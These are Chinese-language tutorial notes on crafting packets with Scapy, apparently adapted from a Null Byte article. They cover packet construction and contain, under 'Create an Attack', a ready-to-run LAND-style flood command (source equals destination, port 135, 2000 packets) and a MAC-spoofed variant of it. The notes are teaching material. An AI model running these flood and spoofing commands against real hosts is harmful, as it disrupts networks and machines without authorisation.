

## 使用Scapy创建数据包进行扫描和执行 [^1]

### Understanding TCP/IP

- TCP结构

  

- TCP标头和数据包

  

### Start Scapy

`pip install scapy`

`scapy`

### Create a Packet

`>>> x = IP(ttl=64)` [^2]

`>>> x` [^3]

`>>> x.src="192.168.1.101"`

`>>> x.dst="192.168.1.122"`

### View Built-in Functions

`lsc()`

`send(x)`

### Create an Attack

`>>> send(IP(src="192.168.1.122", dst="192.168.1.122")/TCP(sport=135,dport=135), count=2000)`

### Spoof  the MAC Address

`>>> sendp(Ether(src="aa:bb:cc:dd:ee:ff")/IP(src="192.168.1.122", dst="192.168.1.122")/TCP(sport=135,dport=135), count=2000)`

### Ref

- [official doc](https://scapy.readthedocs.io/en/latest/)

[原文](https://null-byte.wonderhowto.com/how-to/create-packets-from-scratch-with-scapy-for-scanning-dosing-0159231/)

---

[^1]: 由于能够创建任何具有任何特征的数据包，入侵者可以很容易地找到一个可以关闭主机或网络的数据包。Nmap和Hping3是有效的数据包操作工具，但也有Scapy，几乎可以无限量地定制，可以进行ARP欺骗，ARP缓存中毒，数据包嗅探和分析，也可以像Tcpdump和Wireshark、Aireplay-ng一样注入802.1帧，并像[Cain和Abel](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-1-principles-technologies-0156136/#jump-cainandabel)一样解码VoIP
[^2]: 将数据包定义为`x`，然后为其赋予多个属性
[^3]: 查看构建的数据包的属性